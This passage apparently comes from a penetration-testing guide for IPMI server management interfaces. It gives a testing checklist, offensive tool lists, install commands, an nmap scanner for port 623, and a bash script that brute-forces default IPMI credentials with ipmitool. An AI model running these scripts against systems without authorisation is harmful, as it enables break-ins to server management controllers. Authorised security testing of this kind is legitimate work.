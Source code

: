 ### Security Testing
- [ ] Password hash extraction
- [ ] Privilege escalation testing
- [ ] Power management access
- [ ] Configuration modification attempts

## Tools and Techniques

### Essential IPMI Tools
```bash
# Command-line tools
ipmitool             # Primary IPMI management tool
ipmiutil             # Alternative IPMI utility
freeipmi-tools       # Free IPMI implementation

# Scanning tools
nmap                 # Network discovery and scripts
metasploit           # Vulnerability exploitation

# Password cracking
hashcat              # GPU-accelerated password cracking
john                 # John the Ripper
```

### Tool Installation
```bash
# Install ipmitool
sudo apt install ipmitool

# Install ipmiutil
sudo apt install ipmiutil

# Install freeipmi-tools
sudo apt install freeipmi-tools
```

### Custom Scripts
```bash
# IPMI scanner
#!/bin/bash
target_network=$1

nmap -sU -p623 --script ipmi-version $target_network | grep -E "Nmap scan report|ipmi-version" | grep -A1 "open"

# IPMI credential tester
#!/bin/bash
target=$1
userlist="admin root ADMIN user"
passlist="admin password root calvin blank"

for user in $userlist; do
    for pass in $passlist; do
        result=$(ipmitool -I lanplus -H $target -U $user -P $pass chassis status 2>/dev/null)
        if [ $? -eq 0 ]; then
            echo "Success: $user:$pass"
        fi
    done
done
```
